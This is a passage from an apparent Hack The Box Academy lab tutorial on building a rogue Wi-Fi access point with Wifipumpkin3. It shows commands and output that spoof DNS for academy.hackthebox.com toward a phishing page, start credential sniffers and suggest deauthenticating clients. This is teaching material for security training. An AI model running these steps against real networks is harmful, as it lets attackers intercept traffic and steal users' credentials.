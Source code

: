  bssid             | ssid         |   channel | interface   | interface_net   | status      | security   | hostapd_config
-------------------+--------------+-----------+-------------+-----------------+-------------+------------+------------------
 BC:F6:85:03:36:5B | HTB-Corp     |        11 | wlan1       | default         | not Running | false      | false
</code></pre>
<p>Next, we use the <code>show</code> command to display the available modules in Wifipumpkin3:</p>
<pre><code class="language-shell-session">wp3 &gt; show

[*] Available Modules:
======================

 Name                     | Description
--------------------------+-----------------------------------------------------
 misc.custom_captiveflask | Install custom captiveflask templates
 misc.extra_captiveflask  | Extra customs captiveflask templates
 spoof.dns_spoof          | Perform a dns spoof with accesspoint attack
 wifi.wifideauth          | Sends deauthentication packets to a wifi network AP
 wifi.wifiscan            | Scan WiFi networks and detect devices
</code></pre>
<p>We select the <code>spoof.dns_spoof</code> module for dns spoof attack. Once the <code>dns_spoof</code> module is selected, we configure it with the following commands:</p>
<pre><code class="language-shell-session">wp3 &gt; use spoof.dns_spoof
wp3 : dns_spoof &gt; set domains academy.hackthebox.com
wp3 : dns_spoof &gt; set redirectTo 10.0.0.1
wp3 : dns_spoof &gt; start

[*] DnsSpoof attack
===================

[*] Redirect to: 10.0.0.1 

[*] Targets:
============

[*] -&gt; [academy.hackthebox.com]
</code></pre>
<p>In this configuration, the <code>academy.hackthebox.com</code> domain will be spoofed, and all DNS requests for this domain will be redirected to the IP address <code>10.0.0.1</code>, which is where our fake phishing page for academy is hosted. This enables us to carry out the DNS spoofing attack effectively.</p>
<p>After setting up the DNS spoofing configuration, we run the <code>back</code> command followed by <code>start</code> command to start the rogue access point and initiate the attack:</p>
<pre><code class="language-shell-session">wp3 : dns_spoof &gt; back
[*] module: dns_spoof running in background
[*] use jobs command displays the status of jobs started
wp3 &gt; start
[+] enable forwarding in iptables...
[*] sharing internet connection with NAT...
[*] setting interface for sharing internet: eth0 
[+] starting hostpad pid: [3878]
wp3 &gt; [+] hostapd is running
[*] starting pydhcp_server
[*] starting pydns_server port: 53
[*] starting sniffkin3 port: [80, 8080]
[+] sniffkin3 -&gt; kerberos   activated
[+] sniffkin3 -&gt; httpCap    activated
[+] sniffkin3 -&gt; ftp        activated
[+] sniffkin3 -&gt; emails     activated
[+] sniffkin3 -&gt; hexdump    activated
</code></pre>
<p>To force victims to join our rogue access point, we can perform a deauthentication attack on the legitimate access point. This will disconnect any currently connected clients, prompting them to reconnect, and if the rogue access point has the same SSID, clients will likely try to connect to it.</p>